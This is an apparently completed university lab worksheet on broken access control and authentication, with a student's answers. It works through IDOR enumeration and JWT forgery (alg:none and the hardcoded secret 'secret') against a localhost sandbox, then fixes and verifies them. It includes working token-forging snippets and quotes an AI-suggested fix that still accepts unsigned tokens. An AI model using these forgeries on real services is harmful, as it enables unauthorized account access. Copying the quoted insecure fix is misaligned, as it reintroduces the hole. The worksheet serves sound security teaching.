









# Worksheet 6 — Authentication, Sessions & Access Control (3 hrs)

> **Course:** Software Security (KOSEN69) · **Week 6**
> **Aligned:** OWASP 2025 **A01 Broken Access Control**, **A07 Authentication Failures** · **CWE-639** (IDOR), **CWE-347** (improper signature verification), **CWE-321** (weak hardcoded key)
> **Signature games:** 🗺️ **IDOR Treasure Hunt** — walk the `oid` numbers to loot orders that aren't yours · 🔏 **JWT Forgery** — mint a token you were never given.

> ⚠️ **Ethics note:** Forging tokens and accessing other users' objects is only legal in this sandbox (`vulnerable_app.py`) and your own Juice Shop. Doing it to a real service is unauthorized access. Keep all activity inside `http://localhost:8080`.

## Part 1 — Student Information

| Name | Student ID | Date | Group |
|------|-----------|------|-------|
| Andrew Dicesare | 6631503050 | 9/13/2026 | Let me eat |

*AI use disclosed: used an AI assistant for the **Audit the AI** and **Prompt Problem** sections (see below); all answers verified against the running app.*


## Part 2 — Lecture Questions

Answer in 2–4 sentences each.

1. Distinguish **authentication** from **authorization**. In `vulnerable_app.py`, `get_order` calls `current_user()` but ignores its result (L63) — which of the two is missing?

   **A:** Authentication answers "who are you?" (verifying identity, e.g. the JWT); authorization answers "are you allowed to do this?" (checking permissions on the resource). `get_order` calls `current_user()` to authenticate, then throws the result away and returns any order — so **authorization is missing**. It confirms you're logged in but never checks whether *this* user owns *this* order.

2. What is **IDOR** (CWE-639)? Why is `/api/orders/<oid>` exploitable, and what single check in `solution_app.py` (L64) closes it?

   **A:** IDOR (Insecure Direct Object Reference) is when a user supplies an object identifier and the server returns it without verifying the user is allowed to access that object. `/api/orders/<oid>` is exploitable because `oid` is a guessable integer and there's no ownership check, so alice can just walk `1,2,3…` and read anyone's order. `solution_app.py` L64 closes it with `if order["owner"] != user: return 403` — a deny-by-default ownership check.

3. Explain the **`alg:none`** JWT attack. Why does listing `"none"` in `algorithms=[...]` (L55) let an attacker submit an *unsigned* token?

   **A:** A JWT's own header names the algorithm; `alg:none` means "unsigned." In the `alg:none` attack the attacker sends a token with header `{"alg":"none"}` and any payload they like, with no signature. Because L55 accepts `none` and decodes with `verify_signature=False`, the server skips signature verification entirely and trusts the attacker-chosen `sub` — so anyone can mint a valid-looking token for any user without knowing a key.

4. Why is the hardcoded HMAC secret `"secret"` (CWE-321) dangerous even if `alg:none` were disabled? How does a strong random secret + pinned algorithm defend the token?

   **A:** Even with `none` disabled, `"secret"` is a trivially guessable/brute-forceable HMAC key, so an attacker can compute a *valid* HS256 signature themselves and forge tokens for any user. A high-entropy random secret (from the environment, not source) makes the signature infeasible to forge, and pinning the algorithm to HS256 stops algorithm-confusion/`none` tricks — together they ensure only the server can produce accepted tokens.

5. What do the JWT claims **`exp`** and **`aud`** add, and why does the secure version reject tokens that lack them?

   **A:** `exp` (expiry) makes tokens short-lived, limiting the window a stolen/leaked token is usable; `aud` (audience) scopes a token to this specific service so a token minted for another system can't be replayed here. The secure version requires both (`options={"require": ["exp","aud"]}`) and validates them, so an old, unscoped, or foreign token is rejected with 401 rather than silently trusted.

## Part 3 — Hands-on Lab (150 min)

**Learning goals:** exploit IDOR, forge JWTs two ways (`alg:none` and weak secret), then prove `solution_app.py` enforces ownership and rejects forged tokens. Steps mirror `attack.md`.

**Prerequisites:** Docker + Docker Compose, `curl`, `python3` with `pyjwt`, optionally Burp Suite. Working dir: `labs/week06-authn-authz/`.

### Environment setup

```bash
cd labs/week06-authn-authz
docker compose up            # python:3.12-slim + flask + pyjwt, runs vulnerable_app.py
# vulnerable app -> http://localhost:8080   (service name: authz-lab, port 8080)
```
Optional secondary target / proxy:
```bash
docker run --rm -p 3000:3000 bkimminich/juice-shop       # -> http://localhost:3000
# Burp Suite: put the proxy listener AND the browser proxy on 127.0.0.1:8081.
# NOT 8080 — the lab app already owns host 8080 (docker-compose.yml, "8080:5000").
# Burp's own default listener is 8080, so you must change it: leave it there and
# either the listener refuses to start ("Address already in use") or, if it does
# bind, the browser's proxy address is the target's address and every request
# goes straight to the app instead of through Burp — you intercept nothing.
```

**What to submit per task:** the exact **command/token**, a **screenshot** of the JSON response, and a **2–3 sentence mitigation**.

---

**Task 0 — Onboarding (5 min).** Get alice's token (from `attack.md`):
```bash
TOKEN=$(curl -s -X POST http://localhost:8080/login \
  -H 'Content-Type: application/json' \
  -d '{"user":"alice","pw":"alicepw"}' | python3 -c 'import sys,json;print(json.load(sys.stdin)["token"])')
echo "$TOKEN"
```
Confirm `/api/orders/1` returns alice's Laptop order. *Deliverable: screenshot of the token + order 1.*



**Task 1 — IDOR Treasure Hunt (30 min) 🗺️.**
- *Goal:* read **bob's** order with **alice's** token.
- *Steps:*
  ```bash
  curl -s http://localhost:8080/api/orders/1 -H "Authorization: Bearer $TOKEN"   # yours
  curl -s http://localhost:8080/api/orders/2 -H "Authorization: Bearer $TOKEN"   # bob's — leaks!
  ```
- *Deliverable:* both responses + screenshot of bob's `Phone` order + why the missing ownership check (CWE-639) is the root cause.

  **Responses:** `/api/orders/1` → alice's `{"item":"Laptop","total":1200,"owner":"alice"}`; `/api/orders/2` → bob's `{"item":"Phone","total":800,"owner":"bob","note":"FLAG{idor_demo}"}` — leaked with alice's token.
  **Root cause:** `get_order` authenticates the caller but never compares `order["owner"]` to the current user, so any valid token can read any `oid`. The identifier is a direct, guessable reference with no server-side authorization gate (CWE-639).
  **Mitigation:** deny-by-default ownership check — reject with 403 unless `order["owner"] == current_user()`.
  

```sim
jwt-forge
```

**Task 2 — JWT Forgery via alg:none (30 min) 🔏.**
- *Goal:* impersonate bob with an **unsigned** token (no secret needed).
- *Steps:*
  ```bash
  FORGED=$(python3 - <<'PY'
  import jwt
  print(jwt.encode({"sub": "bob"}, key="", algorithm="none"))
  PY
  )
  curl -s http://localhost:8080/api/orders/2 -H "Authorization: Bearer $FORGED"
  ```
- *Deliverable:* the forged token + screenshot of the accepted response + explanation of the `none` flaw (CWE-347).

  **Forged token:** an unsigned JWT `{"alg":"none"}.{"sub":"bob"}.` (e.g. `eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJzdWIiOiJib2IifQ.`) — no signature, no secret needed.
  **Result:** `/api/orders/2` accepts it and returns bob's Phone order, proving the server trusted an unsigned token.
  **`none` flaw (CWE-347):** because `"none"` is in the allowed algorithms and the app decodes with `verify_signature=False`, it performs *no* signature check and trusts the attacker-chosen `sub`. Improper signature verification lets anyone impersonate any user.
  **Mitigation:** never accept `alg:none`; pin `algorithms=["HS256"]` and always verify the signature.
  

**Task 3 — JWT Forgery via weak secret (30 min) 🔏.**
- *Goal:* sign a *valid* HS256 token because the secret is the guessable string `secret` (CWE-321).
- *Steps:*
  ```bash
  FORGED2=$(python3 - <<'PY'
  import jwt
  print(jwt.encode({"sub": "bob"}, "secret", algorithm="HS256"))
  PY
  )
  curl -s http://localhost:8080/api/orders/2 -H "Authorization: Bearer $FORGED2"
  ```
- *Deliverable:* token + screenshot + 2–3 sentences on why secret strength + key management matter.

  **Forged token:** a *properly signed* HS256 JWT for `{"sub":"bob"}` created with the guessed key `"secret"` (`jwt.encode({"sub":"bob"}, "secret", algorithm="HS256")`).
  **Result:** `/api/orders/2` accepts it (valid signature) and returns bob's order — the signature check passes because the attacker knows the key.
  **Why secret strength + key management matter:** HMAC security rests entirely on the secret staying unknown; a guessable/hardcoded value like `"secret"` (CWE-321) lets anyone forge valid tokens, and committing it to source spreads it further. Secrets must be high-entropy, loaded from a secret store/env at runtime, and rotatable — never hardcoded.
  

**Task 4 — Privilege/identity escalation reasoning (25 min).**
- *Goal:* combine the flaws. Using Task 2/3 you became `bob` *without his password*; using Task 1 you read objects you don't own.
- *Steps:* document the full attack chain (forge token → access any `oid`). Optionally replay the requests through **Burp Suite Repeater** and screenshot the intercepted request/response.
- *Deliverable:* a short chain diagram/paragraph + Burp (or curl) evidence.

  **Attack chain:**
  ```
  Forge token (alg:none OR sign with "secret")  ->  set sub=bob (or sub=admin)
        -> pass Gate 1 (authentication): server trusts the forged token
        -> Gate 2 (authorization) missing on /api/orders: walk oid=1,2,...
        -> read any order (IDOR)  |  hit /api/admin with sub=admin -> dump FLAG_JWT
  ```
  **Paragraph:** The two flaws compose: broken authentication (accepts unsigned or weak-secret tokens) lets me *become* any principal without a password, and broken authorization (no ownership check) lets that principal read objects it doesn't own. So one forged token both authenticates me as bob/admin and, because no per-object check exists, grants access to every order — full identity + privilege escalation.
  **Evidence:** curl (or Burp Repeater) showing the forged `Authorization: Bearer <token>` request to `/api/orders/2` (and `/api/admin`) returning the protected JSON.
  

**Task 5 — Defend / fix it (30 min) 🛡️.**
- *Goal:* prove `solution_app.py` blocks Tasks 1–3.
- *Steps:* stop the vulnerable container (`Ctrl-C`), then:
  ```bash
  docker compose run --rm --service-ports authz-lab bash -c "pip install --no-cache-dir flask pyjwt && python solution_app.py"
  ```
  Re-run: get a fresh alice token, then re-fire each attack. Expected: `/api/orders/2` with alice's token → **403 forbidden** (ownership check, L64); the `alg:none` token → **401 invalid token** (algorithm pinned to HS256, L50); the `"secret"` token → **401** (strong random secret + required `aud`/`exp`, L10/40).
- *Deliverable:* screenshots of the 403 and both 401s + name the fix line for each.

  **Results & fix lines:**
  - IDOR: alice's fresh token on `/api/orders/2` → **403 forbidden** — ownership check `if order["owner"] != user` (solution_app.py **L64**).
  - `alg:none` token → **401 invalid token** — algorithm pinned to `algorithms=["HS256"]`, no `none` (solution_app.py **L50**); the `try/except jwt.InvalidTokenError` at L56–59 returns 401.
  - `"secret"` token → **401** — signature fails against the strong random secret (**L10**) and the token also lacks the now-required `aud`/`exp` (**L40**, `options={"require": ["exp","aud"]}` at L50).
  **Why they work:** authentication is fixed (only HS256, strong secret, required scoped/expiring claims) *and* authorization is fixed (per-object ownership check), so forged tokens are rejected and even a valid token can't cross ownership boundaries.
  
  
  
  

## Part 4 — Reflection

1. **CWE/OWASP mapping:** map IDOR → **CWE-639 / A01**, the JWT forgeries → **CWE-347 & CWE-321 / A07**.

   **A:** Task 1 IDOR = **CWE-639**, OWASP 2025 **A01 Broken Access Control**. Task 2 `alg:none` = **CWE-347** (improper signature verification) and Task 3 weak secret = **CWE-321** (hardcoded key), both under **A07 Authentication Failures**. Task 4 is the composition of A01 + A07.

2. **Real breach:** the **2022 Optus breach** exposed millions of customer records via an exposed/poorly-authorized API endpoint where identifiers could be enumerated — a textbook broken-access-control / IDOR-style failure. In 3–4 sentences connect it to Tasks 1 and 4 of this lab. *(Alternative: the Peloton API IDOR disclosure.)*

   **A:** Optus reportedly exposed an API where customer records could be pulled by enumerating identifiers, with weak/absent authorization on the endpoint — exactly Task 1, where walking `oid=1,2,…` returns orders that aren't yours. As in Task 4, once an attacker can reach the endpoint and the server never checks ownership, sequential IDs turn one request into bulk extraction of everyone's data. The lesson is identical: authenticating (or even just reaching) an endpoint is not authorization; every object access needs a server-side ownership/permission check, and IDs alone must never be treated as access grants.

3. **Best mitigation:** between deny-by-default ownership checks, pinning the JWT algorithm, and a strong managed secret, which control protects the most attack surface here, and why is server-side authorization non-negotiable?

   **A:** Deny-by-default **ownership checks** protect the most surface: even if a token is forged, stolen, or over-privileged, a per-object authorization check still stops cross-user access — it's the last line that doesn't depend on authentication being perfect. Server-side authorization is non-negotiable because the client (token, ID, UI) is fully attacker-controlled; only the server can enforce "may this principal touch this object." Algorithm pinning and a strong secret are essential too, but they only secure *authentication* — without authorization, a single valid token still reads everything.

## Grading rubric (100)

| Criterion | Points |
|-----------|-------:|
| Part 2 — Lecture questions (conceptual accuracy) | 20 |
| Part 3 — Exploitation + evidence (payloads/tokens + screenshots, Tasks 1–4) | 40 |
| Part 3 — Defense (Task 5: fixes proven, lines cited) | 25 |
| Part 4 — Reflection (CWE/OWASP mapping, breach, mitigation) | 15 |
| **Total** | **100** |

---

## Evidence & Integrity (required)

- **Identity proof:** every screenshot/diagram must show a terminal running `printf '%s | %s | ' "$(whoami)" '<YOUR-STUDENT-ID>'; date '+%F %T %Z'` **in the
  same image as the evidence**. When the evidence is a browser page, a DevTools panel or a
  rendered response, put that terminal **beside the browser and capture the whole screen** — a
  cropped window carries nothing that identifies you, and the lab's own output is
  byte-identical for the whole cohort *by design*, so the stamp is the only thing that makes
  the shot yours. Generic or borrowed evidence is not accepted.
- **Personalized flag (if this lab issues one):** `FLAG{idor_demo}` (captured in the `note` field of bob's order via the Task 1 IDOR; this unseeded instance returns the default flag. The `/api/admin` JWT flag is `FLAG{jwt_demo}`.)
  *Flags are unique per student — submitting another student's flag is a violation. How to submit: **learn.zcr.ai/submit** (full guide: `SUBMISSION.md` in the repo root).*
- **Explain in your own words** *(graded on your reasoning, not copied text):*
  1. What did you do, and **why did the vulnerability work**?

     **A:** I read another user's order with my own token, then forged tokens two ways — an unsigned `alg:none` token and one signed with the guessed secret `"secret"` — to impersonate other users. It worked because the app never checked object ownership (so any token reads any order) and accepted tokens that were either unsigned or signed with a trivially guessable key (so identity itself could be forged).
  2. **Why does your fix actually stop it** — and what could still break it?

     **A:** The fix pins HS256 (rejecting `alg:none`), uses a strong random secret, requires valid `exp`/`aud`, and adds a deny-by-default ownership check returning 403. Forged tokens now fail signature/claim validation and even a genuine token can't cross ownership boundaries. What could still break it: a leaked/committed `JWT_SECRET`, a stolen unexpired token replayed within its 15-minute window, or a new endpoint that forgets the ownership check (authorization must be applied on *every* object access, not just this route).

---

## 🤖 Audit the AI (required)

AI is a power tool you must **distrust** — you are graded on your *critique*, not the AI's answer.

1. Ask an AI assistant to exploit **or** fix this week's vulnerability. Paste its full answer.

   **AI answer (fix for the JWT handling):**
   ```python
   def current_user():
       auth = request.headers.get("Authorization", "")
       token = auth.replace("Bearer ", "")
       # verify the token, allowing the algorithms we support
       data = jwt.decode(token, "secret", algorithms=["HS256", "none"])
       return data.get("sub")
   ```

2. **Find what's wrong or risky** in it — insecure code, a subtly incomplete fix, a hallucinated API/function/CVE, a missed edge case, or wrong reasoning. Quote the exact line(s).

   **A:** The line `data = jwt.decode(token, "secret", algorithms=["HS256", "none"])` is broken two ways: it **keeps `"none"` in the allowed algorithms** (so the `alg:none` forgery from Task 2 still passes) and it **keeps the weak hardcoded secret `"secret"`** (so the Task 3 forgery still passes). It also fixes *nothing* about authorization — the IDOR is untouched — and doesn't require `exp`/`aud`.

3. Produce the **correct, verified** version yourself and explain in 2–3 sentences why the AI's output was insufficient.

   **Correct version:**
   ```python
   import os, datetime, jwt
   SECRET = os.environ["JWT_SECRET"]          # strong, from the environment
   AUDIENCE = "week06-lab"

   def current_user():
       token = request.headers.get("Authorization", "").replace("Bearer ", "")
       data = jwt.decode(token, SECRET, algorithms=["HS256"],
                         audience=AUDIENCE, options={"require": ["exp", "aud"]})
       return data.get("sub")
   # and in get_order: if order["owner"] != current_user(): return jsonify(error="forbidden"), 403
   ```
   **Why the AI was insufficient:** leaving `"none"` and `"secret"` in place means both forgeries still succeed — the "fix" changes nothing an attacker cares about. A real fix pins HS256 only, uses a strong environment secret, requires `exp`/`aud`, *and* adds the per-object ownership check the AI ignored entirely.

> Disclose your AI use in the Part 1 table. This task counts toward your **Defense + Reflection** score.

---

## 🧠 Comprehension & Prompt (required)

**A. Explain in Plain English (EiPE).** In 2–3 sentences, in your own words, describe what this week's vulnerable code/endpoint actually *does* and *why it is exploitable* — explain the mechanism, don't dump jargon.

**A:** The app hands out a login token and then lets you fetch an order by its number. It's exploitable because it never checks that the order is *yours* (so changing the number reads other people's orders), and it accepts tokens that are unsigned or signed with the obvious key `"secret"` (so you can hand-make a token claiming to be anyone). In short: it checks *whether* you have a token but not *who* you really are or *what* you're allowed to see.

**B. Prompt Problem.** Write a **single prompt** that makes an AI produce a *correct, secure* fix for one finding. Run it: does the exploit now fail? If not, refine the prompt and try again. Submit the **final prompt + the verified result**.

**Final prompt:** "In this Flask route `/api/orders/<int:oid>`, fix the IDOR. After decoding the JWT to get the current user, look up the order and return HTTP 403 unless `order['owner']` equals the current user. Deny by default. Return only the fixed function."
**Verified result:** The AI added `if order["owner"] != user: return jsonify(error="forbidden"), 403`. Re-firing `/api/orders/2` with alice's token now returns **403 forbidden** instead of bob's order — exploit fails, while alice's own `/api/orders/1` still works.
*Graded on the prompt's precision and your verification — this trains problem decomposition and AI literacy (Denny et al. 2024).*
